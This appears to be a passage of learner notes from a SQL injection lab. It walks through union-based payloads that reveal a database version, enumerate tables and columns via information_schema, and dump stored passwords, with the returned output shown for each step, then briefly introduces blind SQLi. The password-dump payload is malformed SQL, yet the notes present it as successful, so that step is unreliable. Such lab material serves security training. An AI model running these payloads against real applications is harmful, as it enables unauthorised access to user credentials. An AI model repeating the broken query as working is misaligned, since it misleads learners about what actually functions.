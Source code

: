 #### Version Query
Insert version query make it return at the 3rd column. Which tells us the version of the SQL database is 8.0.43.
   ~~~
   SQL: bob' union select null,null,version()#
   ~~~
   > Return:  
   > Username: bob - Email: bob@example.com  
   > Username: Email: 8.0.43  
    
#### Available_Table Query
Use `table_name from information_schema.tables` to retrieve all available table name from the DB.
   ~~~
   SQL: bob' union select null,null,table_name from information_schema.tables#
   ~~~
   > Return:
   > Username: bob - Email: bob@example.com  
   > Username: - Email: CHARACTER_SETS  
   >               .  
   >               .  
   >               .  
   > Username: - Email: injection0x03_products  
   > Username: - Email: injection0x03_users  
   > Username: - Email: xss0x02  
    
#### Available_Column Query
Use `column_name from information_schema.columns` to retrieve all available column names from the DB.
   ~~~
   SQL: bob' union select null,null,column_name from information_schema.columns#
   ~~~
   > Username: bob - Email: bob@example.com  
   > Username: - Email: username  
   > Username: - Email: password  
   > Username: - Email: email  

#### Retrieve Password Query
Since we discover there’s password in our current table injection0x01. use select password from injection0x01.
   ~~~
   SQL: jeremy' union select password from injection0x01,null,null#
   ~~~    
   > Username: jeremy - Email: jeremy@example.com  
   > Username: - Email: jeremyspassword  
   > Username: - Email: jessamyspassword  
   > Username: - Email: bobspassword  
    
{: .box-note}
**Note:** ⚠️ If 1st column doesn’t work, try insert query in 2nd column. If it still not working, try 3rd column, and so on.  

### SQLi Blind
when **Web application doesn’t return any error messages or data from DB**. We need to look for **subtle differences** in the server's response, which can reveal whether the input field is vulnerable to SQL injection.  
E.g., Response Content-Length
